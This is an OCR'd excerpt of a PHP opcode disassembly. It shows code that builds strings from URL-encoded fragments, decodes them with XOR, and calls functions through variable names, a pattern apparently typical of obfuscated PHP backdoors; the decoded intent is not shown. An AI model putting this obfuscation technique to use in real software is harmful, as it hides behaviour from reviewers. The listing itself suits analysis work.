 ```
        95      BW_AND                                           ~0      !4, !5
        96      ASSIGN                                                   !23, ~0
  13    97      EXT_STMT
        98      BW_AND                                           ~0      !6, !7
        99      ASSIGN                                                   !24, ~0
       100      EXT_STMT
       101      FETCH_CONSTANT                                   ~0      'XxBH'
       102      CONCAT                                           ~1      'P0Z%40%22%26%40+F4C+', ~0
       103      CONCAT                                           ~0      ~1, '-+00Z%28%3CY+f+A'
  14   104      FETCH_CONSTANT                                   ~2      'QhbB00'
       105      CONCAT                                           ~1      '%40qzJ+%26H0+%2C%401', ~2
       106      CONCAT                                           ~2      ~1, '%22+R+%2C%5B%25F0e'
       107      BW_OR                                            ~1      ~0, ~2
       108      FETCH_CONSTANT                                   ~0      'bXPf5lH'
       109      CONCAT                                           ~2      '%7E%5E%24B%2AO%2C', ~0
       110      CONCAT                                           ~0      ~2, '%7D%5DLX4%24Y%600r-e7z'
  15   111      FETCH_CONSTANT                                   ~2      'Klo9k'
       112      CONCAT                                           ~3      ~2, '%2AU8g%3B%5DwTg%2Ay%3D%3F%7Eda%25Y%5DiTV%22'
       113      BW_XOR                                           ~2      ~0, ~3
       114      BW_XOR                                           ~0      ~1, ~2
       115      ASSIGN                                                   !25, ~0
       116      EXT_STMT
       117      INIT_FCALL_BY_NAME                                       !19
       118      EXT_FCALL_BEGIN
       119      INIT_FCALL_BY_NAME                                       !20
       120      EXT_FCALL_BEGIN
       121      INIT_FCALL_BY_NAME                                       !21
       122      EXT_FCALL_BEGIN
  16   123      SEND_VAR                                                 !23
       124      DO_FCALL_BY_NAME                              1  $0
       125      EXT_FCALL_END
       126      SEND_VAR_NO_REF                               4          $0
       127      DO_FCALL_BY_NAME                              1  $0
       128      EXT_FCALL_END
       129      SEND_VAR_NO_REF                               4          $0
       130      FETCH_CONSTANT                                   ~1      '_ij7Ugk'
       131      CONCAT                                           ~0      'rLO%3A%5E%7De%2Bw%5D_Tp%3F', ~1
       132      CONCAT                                           ~1      ~0, '%5D'
       133      FETCH_CONSTANT                                   ~0      'FuwXkKWMGn'
       134      CONCAT                                           ~2      ~0, '%3Cc%40%5E'
       135      FETCH_CONSTANT                                   ~3      'nQRRd_'
       136      CONCAT                                           ~0      ~2, ~3
       137      CONCAT                                           ~2      ~0, '%5E%3C'
       138      BW_XOR                                           ~0      ~1, ~2
  17   139      CONCAT                                           ~1      ~0, !12
       140      CONCAT                                           ~0      ~1, !8
       141      CONCAT                                           ~1      ~0, !13
       142      CONCAT                                           ~0      ~1, !14
       143      SEND_VAL                                                 ~0
       144      DO_FCALL_BY_NAME                              2  $0
       145      EXT_FCALL_END
       146    > JMPNZ                                                    $0, ->164
       147  >   INIT_FCALL_BY_NAME                                       !22
       148      EXT_FCALL_BEGIN
       149      SEND_VAR                                                 !24
  18   150      CONCAT                                           ~1      !9, 'Zj%5D%2Cm'
       151      CONCAT                                           ~0      ~1, !15
       152      SEND_VAL                                                 ~0
       153      INIT_FCALL_BY_NAME                                       !21
       154      EXT_FCALL_BEGIN
```